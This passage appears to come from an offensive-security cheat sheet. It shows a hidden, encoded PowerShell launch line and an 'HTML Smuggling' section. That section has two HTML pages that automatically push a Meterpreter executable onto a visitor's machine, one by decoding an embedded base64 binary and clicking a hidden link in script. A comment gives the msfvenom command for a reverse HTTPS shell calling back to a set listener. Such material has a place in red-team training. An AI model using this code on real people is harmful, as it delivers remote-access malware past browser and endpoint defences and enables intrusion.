 ```pwsh
powershell -exec bypass -nop -w hidden -e <base64_encode>
```

## HTML Smuggling

### smuggling.html

HTML5 anchor tag **download** attribute instructs the browser to automatically download a file when a user clicks the assigned hyperlink.

```html
<html>
    <body>
      <a href="/msfstaged.exe" download="msfstaged.exe">DownloadMe</a>
   </body>
</html>
```

```html
<html>
    <body>
        <script>
          function base64ToArrayBuffer(base64) {
    		  var binary_string = window.atob(base64);
    		  var len = binary_string.length;
    		  var bytes = new Uint8Array( len );
    		  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
    		  return bytes.buffer;
      		}
      		
			/* msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o msfstaged.exe
			base64 msfstaged.exe */
      		var file ='TVqQAAMAAAAEAAAA...'
      		var data = base64ToArrayBuffer(file);
      		var blob = new Blob([data], {type: 'octet/stream'});
      		var fileName = 'msfstaged.exe';
      		
			// Google Chrome
      		var a = document.createElement('a');
      		document.body.appendChild(a);
      		a.style = 'display: none';
      		var url = window.URL.createObjectURL(blob);
      		a.href = url;
      		a.download = fileName;
      		a.click();
      		window.URL.revokeObjectURL(url);
			
			// Microsoft Edge
			// window.navigator.msSaveBlob(blob, filename);
        </script>
    </body>
</html>
```
